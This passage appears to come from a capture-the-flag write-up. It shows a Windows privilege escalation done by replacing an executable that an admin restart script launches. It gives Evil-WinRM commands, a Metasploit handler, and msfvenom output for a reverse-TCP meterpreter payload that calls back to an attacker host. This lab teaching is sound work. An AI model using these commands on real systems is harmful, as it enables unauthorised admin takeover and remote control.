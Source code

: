 First you had to move the current directory out of the way, create a new one and copy the script there.

```
*Evil-WinRM* PS C:\ > mv \devapp \old
*Evil-WinRM* PS C:\ > mkdir \devapp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/10/2021   1:53 PM                devapp


*Evil-WinRM* PS C:\ > cp \old\restart.ps1 \devapp
*Evil-WinRM* PS C:\ > cd \devapp
```

Next you started up a handler inside metasploit and generated a meterpreter executable.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.74
lhost => 10.10.14.74
msf6 exploit(multi/handler) > set lport 7474
lport => 7474
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.74:7474
```

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.74 LPORT=7474 -f exe -o m.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of exe file: 206848 bytes
Saved as: m.exe
```

You placed the meterpreter as `MyFirstApp.exe` inside the new `C:\DevApp` folder. After some time the the script restarts the exe sending a meterpreter session as administrator.

```
*Evil-WinRM* PS C:\devapp> upload m.exe MyFirstApp.exe
Info: Uploading m.exe to C:\devapp\MyFirstApp.exe


Data: 275796 bytes of 275796 bytes copied

Info: Upload successful!
```
